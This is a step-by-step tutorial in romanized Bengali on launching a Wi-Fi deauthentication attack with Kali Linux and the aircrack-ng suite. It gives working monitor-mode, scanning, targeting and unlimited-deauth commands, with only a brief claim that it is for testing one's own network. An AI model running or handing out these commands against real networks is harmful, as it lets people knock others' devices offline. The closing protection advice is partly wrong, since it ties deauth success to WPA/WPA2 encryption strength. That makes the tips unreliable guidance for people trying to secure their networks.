 Tumi jodi nijer Wi-Fi network e deauth attack korte chao, tahole **Kali Linux** use kore step-by-step process ta niche describe kora holo. Ei method shudhu **educational purposes** e ar nijer network er vulnerability test er jonno use koro.

---

### **Step 1: Kali Linux Setup**
Ensure kore nao je tumhar system e **Kali Linux installed** ache, ar Wi-Fi adapter monitor mode ar packet injection support kore. Tumhar laptop er Wi-Fi adapter er compatibility check er jonno ei command use koro:
```bash
sudo airmon-ng
```

---

### **Step 2: Wi-Fi Adapter Monitor Mode E Enable Koro**
Monitor mode enable korar jonno ei command use koro:
```bash
sudo airmon-ng start wlan0
```
- **`wlan0`**: Tumhar Wi-Fi adapter er naam. Jodi Wi-Fi adapter er naam different hoy (`wlan1`, etc.), tahole seta use koro.

Terminal output e **monitor mode enabled** message asbe, ar Wi-Fi interface er naam change hoye **wlan0mon** hobe.

---

### **Step 3: Wi-Fi Networks Scan Koro**
Nearby Wi-Fi networks scan korte ei command run koro:
```bash
sudo airodump-ng wlan0mon
```
- Ekhane tumhar network er **BSSID** (MAC address) ar **Channel Number** note koro. Eta deauth attack er jonno lagbe.

Example output:
```
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
XX:XX:XX:XX:XX:XX  -40       23      100    5   6  54e  WPA2 CCMP   PSK   MyWiFi
```
- Ekhane **BSSID** holo `XX:XX:XX:XX:XX:XX` ar **Channel** holo `6`.

---

### **Step 4: Target Network Select Koro**
Specific network target korar jonno ei command run koro:
```bash
sudo airodump-ng --bssid XX:XX:XX:XX:XX:XX --channel 6 --write output wlan0mon
```
- **`XX:XX:XX:XX:XX:XX`**: Tumhar Wi-Fi network er BSSID.
- **`6`**: Tumhar Wi-Fi network er channel number.
- **`output`**: Ei naam e captured packets save hobe.

Ei command network er detailed activity dekhabey ar connected devices gula list korbe.

---

### **Step 5: Deauth Attack Launch Koro**
Deauthentication attack start korar jonno ei command run koro:
```bash
sudo aireplay-ng --deauth 0 -a XX:XX:XX:XX:XX:XX wlan0mon
```
- **`--deauth 0`**: Unlimited deauth packets send kore.
- **`-a XX:XX:XX:XX:XX:XX`**: Target Wi-Fi network er BSSID.
- **`wlan0mon`**: Monitor mode e thaka Wi-Fi interface.

Ei attack connected devices gulake repeatedly disconnect kore dibe.

---

### **Step 6: Monitor Mode Theke Normal Mode E Phire Asha**
Attack sesh hole monitor mode theke normal mode e phire ashte ei commands run koro:

1. Monitor mode disable koro:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Wi-Fi service restart koro:
   ```bash
   sudo service NetworkManager restart
   ```

---

### **Important Tips**
1. **Network Vulnerability Check**:
   Ei process tumhar Wi-Fi network er security test korar jonno. Jodi deauth attack successful hoy, tahole tumhar network WPA/WPA2 encryption strong ache kina check koro.

2. **Protection Tips**:
   - Strong password use koro.
   - **WPA3 encryption** enable koro, jodi possible hoy.
   - Deauth attack er against tamper-proof routers use koro.

---

